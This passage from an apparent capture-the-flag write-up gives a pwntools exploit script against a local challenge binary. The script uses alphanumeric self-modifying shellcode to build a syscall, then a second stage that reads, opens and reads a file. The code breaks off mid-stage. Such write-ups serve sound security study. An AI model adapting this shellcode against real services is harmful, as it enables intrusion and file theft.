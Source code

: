 ### Exploit
Putting it all together, we get the following shellcode:

```
# This exploit is based off of: https://lordidiot.github.io/2019-02-03/nullcon-hackim-ctf-2019/#easy-shell

from pwn import *

target = process('./challenge')
#gdb.attach(target)


context.arch = "amd64"

# Here is the shellcode which will do the prep for the syscal
# Also we need to appen the 'PP' (0x5050) in fron of the 'aa' (0x6161) since we need alphanumeric characters there
sc0 = asm("""
push rsi
pop rcx
xor eax, 0x50506161
xor dword ptr [rcx + 0x30], eax
push rdi
pop rax
push rbx
pop rdx      
""")

# Append our psuedo nops to the end of the shellcode 
nop = asm("push rax; pop rax")

while len(sc0) < 0x30:
    sc0 += nop

# Here are the other two characters which will be xored to get '\x05\x0f'
sc0 += "nd"

# Send the first shellcode
target.send(sc0)

# Build the second shellcode, check the writeup for detailed explanation
sc1 = asm("""
sub rsp, 0x1000
mov rsi, rsp
xor rdi, rdi
mov rdx, 0x100
xor rax, rax
syscall

mov rdi, rsp
xor rsi, rsi
xor rdx, rdx
mov rax, 2
syscall

mov rdi, rax
mov rsi, rsp
mov rdx, 0x100
xor rax, rax
syscall

mov rdi, 1
```